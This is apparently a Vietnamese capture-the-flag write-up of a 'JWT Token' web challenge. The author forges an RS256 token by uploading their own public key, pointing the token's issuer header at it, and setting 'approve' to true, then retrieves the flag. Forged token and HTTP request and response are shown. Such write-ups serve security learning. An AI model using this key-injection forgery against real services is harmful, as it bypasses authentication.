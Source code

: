 ## JWT Token

Adrress: http://172.104.49.143:1574/

Đăng nhập với username một cách bình thường là `admin` :)))

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450231-a8541ebb-04b1-4385-9f3c-940cc067e9cb.png" width="50%" align="center">
</p>

Và cũng như một cách bình thường khác ta upload file

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450277-04df90a0-2892-4796-8519-bf050d271189.png" width="50%">
</p>

Quay trở lại trang `/` ta thấy có danh sách 1 số file đã up và nó có dạng `website/uploads/<username>/<filename>`

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450313-52fc3f5b-ae2e-4e0d-8152-85de4d99a103.png" width="50%">
</p>

Ở đây mình nghĩ ngay đến việc up shell và ghi `hacked by tronghieu220403` nhưng mà mãi k payload được nên nghĩ cách khác =)))

Để ý lại history có cái getflag.js mình vào thử

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450418-6423eabe-25d7-4946-a5ad-feedd95d045b.png" width="50%">
</p>

Đoạn Javascript của nó:
```Javascript
function getFiles(){
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "getflag", true);
    xhr.onload = function() {
        if (xhr.status === 200) {
            var flag = xhr.responseText.split("\n");
            var html = "";
            if (flag.length > 0) {
                    html += "<li>" + flag + "</li>";
                }
            document.getElementById("flag").innerHTML = html;
        } else {
            alert("Error: " + xhr.status);
        }
    }
    xhr.send();
}
```

Mình có check `./getflag` thì

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450478-3f939786-770a-4554-a11e-badb6f104b1b.png" width="50%">
</p>

Check Request kiểm tra Cookie:
```http
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImlzcyI6Imh0dHA6Ly9sb2NhbGhvc3Q6NTAwMC9zdGF0aWMva2V5cy5wdWIifQ.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXBwcm92ZSI6ZmFsc2V9.KnO6VyVQ12jQ1uSJ8DmbxHDjMWi1-qkwx_EoVGmcpVJaP8E5g_YSl5t30Ij6cQQVFlfjMjJB0OFWm3rJtGcxvzcqgHRBZcPEPnoSPVgtq7GEa9VtsyjRYSMl7oUeiOJrnC0PifPt8KeAZRO43ZNnARULOxGH2Ntmqx6I7is4nPY1rkuz09_FxNMgiZ07gx8CBkKs7F8tNTqsIIWgEXVNFxB9QNlUokoxLjbr85muEz48-rpzqL74sKYA_pvhiwh7IoCRVg5WWrXUTEUIiA-tpX6q-CaImSSUtYL7CEw17O22hEggLwNrXBsJ17ApyaYkbU99ucB9HfMFqwdCBxudUBMagJihGLQe2w3wj_HJiYliIjdAk88l270Yjtm42OoeVW6Pf2XSR-d3ygjvNjjyxv2mBt6_443vx9nPTZ8TjA28mxGvRTs1nRHHmvDDpOLGT5WW6yApvRGoulFEsvrQdmKxPW3udGAy-xfVOjkWe_b7OaY2O4sFLKklR23Dz37H
```

Đây là JWT Cookie (Đề bài là JWT Token mà), sử dụng [JWT Tool](https://token.dev)

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450654-e6e9ca57-a3fe-43f1-9dd9-101e5893d829.png" width="100%">
</p>

Như vậy muốn có flag ta cần đổi giá trị `approve` thành `True` 

Nhưng mà mọi việc đâu dễ thế, ta cần đổi giá trị nhưng mà vẫn phải thỏa mãn Signature RS256

**Exploit:** Mình có thể tải xuống Pubkey và tìm trở lại PrivateKey, nhưng mà điều đó sẽ rất khó, cái gì khó quá thì bỏ qua :vvv

Vậy nếu như mình thay Pubkey thì sao nhỉ :)? rất hay trên trang Token.dev có sẵn Private và Public từ Template, sử dụng key đó luôn, bằng cách upload file pub mới lên

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193451020-685bb621-4436-49d6-aab1-322c18dc6db5.png" width="100%">
</p>

Vậy ta đã có token mới, let's check :))

```http
GET /getflag HTTP/1.1
Host: 172.104.49.143:1574
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImlzcyI6Imh0dHA6Ly9sb2NhbGhvc3Q6NTAwMC91cGxvYWRzL2FkbWluL2hpaGkudHh0In0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXBwcm92ZSI6dHJ1ZX0.2y8teT0Yu5YlRuencanFDXbmvDkdbfgZVbtsfzCRlcBZSPtMNN0Y8dmR5yumoYPrR5SJbyDE454Sewai_nW_q7FYm0a-hrW4GdxcWvnFYNkNq-58_1NJ6XKjGUZiT89lNpMKevvYvbcEiO1fspg_10Pu9_T7PBsRw2KeXC_Vl1TuNSL5xKzdFiLxRdKdOr33QkoWqe0k4S_rp6jcbXlz2AMITcDDT5E8nWzvkPSycSke6klJGyN2Mf1H7CPzTN96d90m3fhbzKkf5a82jPo4R1IGth2b0fFLTMhCRHmhmX5k3gRswWkwZvLxiRmGy6Svtras6ldRWDMzIrhADujY1Q
Connection: close
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.10.5
Date: Sun, 02 Oct 2022 11:12:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 44
Connection: close

FLAG: Flag{JWT_token_is_the_best_token_ever}
```
